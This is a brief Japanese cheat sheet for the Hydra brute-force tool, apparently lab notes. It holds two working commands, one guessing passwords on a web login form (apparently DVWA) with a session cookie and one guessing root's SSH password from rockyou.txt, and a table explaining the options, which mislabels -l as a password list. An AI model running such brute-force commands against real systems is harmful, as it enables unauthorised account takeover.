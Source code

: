 # Hydra

* Hydra
  1. 様々なプロトコルに対応したBruteForce Attackツール
  2. ワードリスト　`/usr/share/wordlists/metasploit`
  3. コマンド例

  ``` shell
      hydra 192.168.XXX.XXX -s 80 -l gordonb -P /usr/share/wordlists/metasploit/burnett_top1024.txt http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=セッションID;security=low:F=Username and/or password incorrect."
  ```

  ``` shell
      # sshでrockyou.txtを使ったパスワード総当たり
      hydra -l root -P rockyou.txt XXX.YYY.ZZZ.III ssh
  ```

| command                                                  | summary                                     |
| -------------------------------------------------------- | ------------------------------------------- |
| Hydra                                                    | hydraコマンド                               |
| `192.168.XXX.XXX -s 80`                                   | webアプリのアドレスとポート                 |
| `-l gordonb`                                             | パスワードリスト                            |
| `-P /usr/share/wordlists/metasploit/burnett_top1024.txt` | パスワードリスト                            |
| `/vulnerabilities/brute/`                                | リクエスト先のリソース                      |
| `:username=^USER^&password=^PASS^&Login=Login`           | クエリストリングの^USER^,^PASS^が変数に相当 |
| `:H=Cookie: PHPSESSID=セッションID;security=low`         | リクエストのヘッダ(Cookie)                  |
| `:F=Username and/or password incorrect."`                | ログイン失敗時のメッセージ |
